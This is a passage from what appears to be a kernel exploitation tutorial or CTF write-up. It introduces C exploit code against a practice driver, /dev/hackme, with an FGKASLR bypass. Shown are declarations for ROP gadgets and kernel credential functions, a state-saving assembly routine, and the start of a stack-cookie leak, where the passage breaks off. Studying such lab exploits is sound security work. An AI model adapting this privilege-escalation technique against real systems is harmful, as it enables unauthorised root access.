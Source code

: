 We will now present the complete code for the exploit using FGKASLR.


{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>


char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;

// memory locations in the kernel
uint64_t kernel_base;
uint64_t ksymtab_prepare_kernel_cred;
uint64_t ksymtab_commit_creds;

uint64_t commit_creds;
uint64_t prepare_kernel_cred;

// rop gadgets
uint64_t pop_rax_ret; // pop rax; ret
uint64_t read_mem_pop1_ret; // mov eax, qword ptr [rax + 0x10]; pop rbp; ret;
uint64_t pop_rdi_pop_rbx_ret; // pop rdi ; pop rbx ; ret
uint64_t swapgs_restore_regs_and_return_to_usermode; // The KPTI trampoline

// temporary return values
uint64_t tmp;
uint64_t creds_struct; // returned creds_struct from prepare_kernel_cred(0)

// for storing the registers
uint64_t user_cs, user_ss, user_rflags, user_sp;


void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

/*
First, we leak the cookie and the base address of the kernel.
This allows us to compute the memory locations of the relevant gadgets
in the section that is affected by ASLR, but not by KASLR.
*/
void leak_cookie() {